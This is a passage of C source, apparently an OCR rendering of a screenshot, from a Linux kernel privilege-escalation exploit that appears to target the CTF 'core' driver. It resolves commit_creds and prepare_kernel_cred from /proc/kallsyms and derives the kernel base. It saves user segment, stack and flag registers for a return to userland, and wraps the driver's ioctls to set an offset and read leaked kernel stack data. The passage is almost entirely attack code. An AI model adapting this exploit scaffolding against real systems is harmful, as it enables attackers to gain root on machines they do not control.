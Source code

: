 ```c
	{
		puts("[*]open kallsyms error!");
		exit(0);
	}

	char buf[0x30] = {0};
	while(fgets(buf,0x30,kallsyms_fd))
	{
		if(commit_creds & prepare_kernel_cred)
			return 0;

		if(strstr(buf, "commit_creds") && !commit_creds)
		{
			char hex[20] = {0};
			strncpy(hex,buf,16);
			sscanf(hex,"%llx",&commit_creds);
			printf("commit_creds addr: %p\n",commit_creds);
			vmlinux_base = commit_creds - 0x9c8e0;
			printf("vmlinux_base addr: %p",vmlinux_base);
		}

		if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
		{
			char hex[20] = {0};
			strncpy(hex,buf,16);
			sscanf(hex,"%llx",&prepare_kernel_cred);
			printf("prepare_kernel_cred addr: %p",prepare_kernel_cred);
			vmlinux_base = prepare_kernel_cred - 0x9cce0;
		}
	}

	if(!(prepare_kernel_cred & commit_creds))
	{
		puts("[*]Error!");
		exit(0);
	}
}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__(
		"mov user_cs, cs;"
		"mov user_sp, rsp;"
		"mov user_ss, ss;"
		"pushf;"
		"pop user_rflags;"
		);
	puts("[*]status has been saved.");
}

void set_off(int fd, long long idx)
{
	printf("[*]set off to %ld\n",idx);
	ioctl(fd,0x6677889C,idx);
}

void core_read(int fd,char *buf)
{
	puts("[*]read to buf.");
	ioctl(fd,0x6677889B,buf);
}

void core_copy_func(int fd,long long size)
```